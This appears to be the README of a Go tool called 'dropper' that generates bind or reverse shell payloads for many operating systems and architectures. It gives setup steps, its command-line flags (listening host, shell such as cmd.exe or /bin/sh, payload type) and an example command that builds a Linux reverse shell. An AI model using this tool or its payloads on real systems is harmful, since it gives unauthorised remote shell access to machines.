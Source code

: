 Dropper

In order to run dropper, you must already have your GOPATH configured properly.
For more information on setting up your GOPATH and Golang environment, please visit the golang wiki on GitHub: 

https://github.com/golang/go/wiki/SettingGOPATH

If everything is all set, navigate to your GOPATH on your system run clone the repo using `git` or `go`.

<code>git clone https://github.com/im4x5yn74x/dropper.git</code>

<code>go get github.com/im4x5yn74x/dropper</code>

Once cloned, change to the dropper folder and give it a test run.

<code>cd dropper/;</code>
<code>go run dropper.go</code>

+...|Choose an OS|...+

- windows
- linux
- freebsd
- nacl
- netbsd
- openbsd
- plan9
- solaris
- dragonfly
- darwin
- android

>_: 

Feel free to compile it and use provide arguments to quickly build your payloads. 

<code>go build dropper.go</code>
<code>./dropper -h</code>
<pre>
Usage of ./dropper:
	-a string
		Architecture: 386, amd64, amd64p32, arm, arm64, ppc64, ppc64le, mips, mipsle, mips64, mips64le, s390x, sparc64
	-l string
		Listening host: <listening ip:port>
	-o string
		Output filename: <anything goes>
	-p string
		Operating System: windows, linux, freebsd, nacl, netbsd, openbsd, plan9, solaris, dragonfly, darwin, android
	-s string
		Shell type: C:\Windows\System32\cmd.exe, C:\Windows\SYSWOW64\WindowsPowerShell\v1.0\powershell.exe, /bin/sh, /system/bin/sh
	-t string
		Payload type: bind/reverse
</pre>
 Example:
 <code>./dropper -o potato -p linux -l 127.0.0.1:1337 -s /bin/sh -t reverse</code>
 
